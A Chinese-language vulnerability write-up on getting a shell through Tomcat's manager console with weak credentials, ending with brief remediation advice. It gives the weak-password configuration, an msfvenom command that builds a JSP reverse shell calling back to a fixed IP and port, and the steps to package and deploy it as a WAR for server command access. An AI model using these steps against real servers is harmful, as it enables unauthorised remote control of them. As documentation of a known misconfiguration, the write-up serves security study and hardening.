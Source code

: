 ### 0x00简述

漏洞名称：Tomcat 后台管理弱口令GETSHELL

漏洞影响：上传包含任意代码的文件，并被服务器执行。

影响平台：ALL

影响版本：ALL

### 0x01利用

漏洞利用的前提就是当前环境有弱口令且账号权限是 `manager-gui`，对应配置文件为：`conf/tomcat-users.xml`中：

```
<role rolename="manager-gui"/>
<user username="tomcat" password="tomcat" roles="manager-gui"/>
```

然后就可访问`/manager/html` 进入后台管理界面部署WAR文件：

![1583230134224](.\images\1583230134224.png)

接下来我们就需要自己手动打包一个WAR包，首先使用msfvenom生成jsp文件：

```jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=100.119.111.139 LPORT=5353 R > cmd.jsp
```

使用命令将当前文件夹打包：

```
jar -cvfM0 hello.war ./
```

运行之后会在当前目录生产一个 `hello.war` :

![1583231125933](.\images\1583231125933.png)

上传并部署之后会提示一个消息 `OK` ：

![1583230507964](.\images\1583230507964.png)

然后我们点击hello并访问刚才上传的jsp文件，虽然页面是一片空白，但是这个时候已经获取到了服务器的CMD权限：

![1583231264685](.\images\1583231264685.png)

可以看到这个漏洞的杀伤力之大，但是在tomcat本身看来这个只是为了方便部署而设计的一个功能，所以只要是存在弱密码的情况，那么基本每个版本都可以拿到最后的权限。

### 0x02 修复

- 强密码
- 不要开manage的任何账户权限

### 0x03 参考链接

 https://www.freebuf.com/articles/web/36455.html 